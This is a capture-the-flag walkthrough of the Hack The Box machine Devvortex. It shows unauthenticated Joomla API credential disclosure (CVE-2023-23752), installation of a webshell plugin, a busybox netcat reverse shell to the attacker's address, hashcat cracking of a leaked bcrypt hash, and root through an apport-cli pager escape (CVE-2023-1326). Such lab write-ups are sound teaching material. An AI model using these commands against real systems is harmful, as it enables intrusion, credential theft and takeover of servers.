







Exploitation Summary
Exploitation process: The attack began with the discovery of a development subdomain hosting Joomla CMS version 4.2.6. This version was vulnerable to CVE-2023-23752, an improper access control issue that allowed unauthorized access to webservice endpoints without authentication.
By exploiting this vulnerability, I accessed the Joomla API to extract user credentials and configuration details. The leaked credentials provided access to the administrator panel, where I uploaded a custom webshell plugin to achieve remote code execution as the www-data user.
From the initial foothold, I discovered MySQL database credentials in the Joomla configuration. Using these credentials, I accessed the database and extracted a bcrypt password hash for user logan, which I successfully cracked using hashcat.
The final privilege escalation leveraged a sudo permission on /usr/bin/apport-cli. Version 2.20.11 of apport-cli was vulnerable to CVE-2023-1326, which allowed command execution through the less pager when viewing crash reports. By invoking the shell escape feature in less, I obtained a root shell.
Technologies/Exploits: Joomla CMS 4.2.6 API unauthorized access (CVE-2023-23752), webshell plugin injection, MySQL credential extraction and bcrypt hash cracking, apport-cli privilege escalation through less pager (CVE-2023-1326).
Initial Reconnaissance
Starting with an nmap scan to identify open ports and services on the target machine:

The scan reveals standard web services. I add devvortex.htb to /etc/hosts to proceed with web enumeration.
Web Enumeration - Virtual Host Discovery
The main website at devvortex.htb appears to be a simple static site without obvious vulnerabilities. Running gobuster on the main domain doesn't reveal anything unusual.
However, performing virtual host enumeration reveals an interesting development subdomain:

I add dev.devvortex.htb to /etc/hosts and begin enumerating this subdomain.
Development Site Analysis
Running gobuster against the development subdomain yields much more interesting results:

The directory structure and file organization suggest this is a Content Management System. Running Wappalyzer confirms this is a Joomla installation. The presence of /administrator, /api, and other typical Joomla directories provides clear indicators of the CMS type.
CMS Fingerprinting - Joomla Version Detection
I use cmseek to perform automated CMS detection and vulnerability scanning:

The joomscan tool specifically identifies this as Joomla version 4.2.6. This is a critical finding, as version information allows me to search for known vulnerabilities.
Vulnerability Research
Searching for vulnerabilities affecting Joomla 4.2.6, I find multiple issues, primarily XSS vulnerabilities. However, the most interesting discovery is CVE-2023-23752.
This vulnerability is described as: "An improper access check allows unauthorized access to webservice endpoints."
This is a critical authentication bypass that allows unauthenticated users to access Joomla's REST API endpoints, potentially exposing sensitive configuration data and user information.
Exploiting CVE-2023-23752 - Information Disclosure
I locate a proof-of-concept exploit: https://github.com/Youns92/Joomla-v4.2.8---CVE-2023-23752/blob/main/exploit.sh
Using the commands from the exploit, I can query the unauthenticated API to extract user information:
curl -s "http://dev.devvortex.htb/api/index.php/v1/users?public=true" | jq '.data[] | select(.type == "users") | {id: .attributes.id, name: .attributes.name, username: .attributes.username, email: .attributes.email, groups: .attributes.group_names}'This reveals two users:
{
"id": 649,
"name": "lewis",
"username": "lewis",
"email": "lewis@devvortex.htb",
"groups": "Super Users"
}
{
"id": 650,
"name": "logan paul",
"username": "logan",
"email": "logan@devvortex.htb",
"groups": "Registered"
}The user lewis is particularly interesting as they belong to the "Super Users" group, which has administrative privileges in Joomla.
Querying another configuration endpoint exposes database credentials:
{
"user": "lewis",
"id": 224
}
{
"password": "P4ntherg0t1n5r3c0n##",
"id": 224
}These credentials (lewis:P4ntherg0t1n5r3c0n##) provide access to the Joomla administrator panel.
Administrator Access - Webshell Installation
Upon logging into the administrator panel at http://dev.devvortex.htb/administrator, I'm immediately presented with system information:

With administrative access, I can install plugins - a common technique for achieving code execution on CMS platforms, similar to WordPress plugin abuse.
I use a Joomla webshell plugin from: https://github.com/p0dalirius/Joomla-webshell-plugin
After installing the malicious plugin through the administrator interface, I can execute commands via the following endpoint:
curl -X POST 'http://dev.devvortex.htb/modules/mod_webshell/mod_webshell.php' --data "action=exec&cmd=id"The response confirms remote code execution:
{"stdout":"uid=33(www-data) gid=33(www-data) groups=33(www-data)\n","stderr":"","exec":"id"}Initial Access - Reverse Shell
Now that I have RCE through the webshell, I can upgrade to a full reverse shell. I set up a netcat listener:
nc -lvnp 443Then execute a reverse shell command through the webshell:
curl -X POST 'http://dev.devvortex.htb/modules/mod_webshell/mod_webshell.php' --data 'action=exec&cmd=busybox nc 10.10.16.6 443 -e bash'This grants me shell access as the www-data user.
Post-Exploitation Enumeration
After establishing the shell, I perform basic enumeration:
Checking the home directory reveals a user named logan. Running ss -tuln shows that MySQL is listening locally on the standard port 3306.
Since I already have database credentials from the earlier API leak, I can access MySQL directly:
mysql -u lewis -p'P4ntherg0t1n5r3c0n##'Exploring the Joomla database, I find the users table and extract the password hash for logan:
$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12This is a bcrypt hash (indicated by the $2y$ prefix). I save this hash and use hashcat to crack it:
hashcat -m 3200 -a 0 -o found.txt hashes.txt /usr/share/wordlists/rockyou.txtHashcat successfully cracks the hash, revealing the password: tequieromucho
I can now escalate to the logan user:
su loganWith these credentials, I successfully retrieve the user flag from logan's home directory.
Privilege Escalation - Sudo Permissions Analysis
After gaining access as logan, I check for sudo privileges:
sudo -lThe output reveals an interesting permission:
User logan may run the following commands on devvortex:
(ALL : ALL) /usr/bin/apport-cliThe apport-cli utility is Ubuntu's crash reporting tool. Having sudo access to this binary without a password is unusual and potentially exploitable.
Checking the help output reveals version information and available options:

The version is 2.20.11. I search for known vulnerabilities affecting this version.
Exploiting CVE-2023-1326 - Apport Privilege Escalation
I find a vulnerability affecting apport-cli versions 2.26 and earlier: CVE-2023-1326
The vulnerability works as follows: when viewing crash reports through apport-cli, the tool uses less as its pager to display the report contents. Since we can run apport-cli with sudo, this effectively gives us the ability to run less as root.
The less pager has a well-known feature that allows executing shell commands by typing ! followed by a command. This means we can escape to a root shell.
Executing the Privilege Escalation
I execute apport-cli with sudo and the --file-bug option:
sudo /usr/bin/apport-cli --file-bugThe tool prompts me to select a package and choose various options. Eventually, it offers to view the report:

When I select the option to view the report (V), it opens in the less pager running as root. Now I simply type the following to escape to a root shell:
!/bin/bashThis spawns a bash shell with root privileges:
Please choose (S/V/K/I/C): V
root@devvortex:/home/logan# whoami
rootWith root access, I can retrieve the root flag and complete the machine.